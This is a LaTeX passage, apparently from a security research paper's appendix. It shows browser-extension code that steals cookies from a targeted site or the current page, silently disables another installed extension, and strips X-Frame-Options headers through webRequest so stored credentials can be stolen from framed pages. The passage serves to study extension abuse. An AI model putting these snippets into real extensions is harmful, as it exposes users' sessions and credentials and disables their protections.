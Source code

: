 \subsection{Steal Cookies}

	\begin{code}
		\begin{lstlisting}
chrome.cookies.getAll({ url: TARGETED_URL }, function(cookies) {
	send(cookies);
});
\end{lstlisting}
		\caption{Extension code to steal cookies from any website.}
	\end{code}
	
	\begin{code}
		\begin{lstlisting}
send(document.cookie.split(';'));
\end{lstlisting}
		\caption{Content script to steal cookies from the current web page.}
	\end{code}



\subsection{Hamper Extension Management}

	We query for all currently installed extensions (line 1), iterate over the returned list (line 2), check if the extension's name equals our targeted extension (line 3), and finally disable the targeted extension (line 4). 

	\begin{code}
		\begin{lstlisting}
chrome.management.getAll(function(infos) {
	infos.forEach(function(info) {
		if(info.name === TARGET_EXTENSION_NAME) {
			chrome.management.setEnabled(info.id, false);
		}
	});
});
\end{lstlisting}
		\caption{Extension code to silently disable another extension.}
	\end{code}





\subsection{Web Requests}

	An extension with access to the \texttt{webRequest} module is able to modify and remove security relevant headers from a HTTP response. 
	To execute the first approach, our implementation removes the \texttt{X-Frame-Option} from any incoming web request to be able to load particular web pages into an iframe and steal probably stored credentials. For that purpose, it needs the permissions \texttt{"webRequest"}, \texttt{"webRequestBlocking"}, \texttt{"https://*/*"}, and \texttt{"http://*/*"}. 

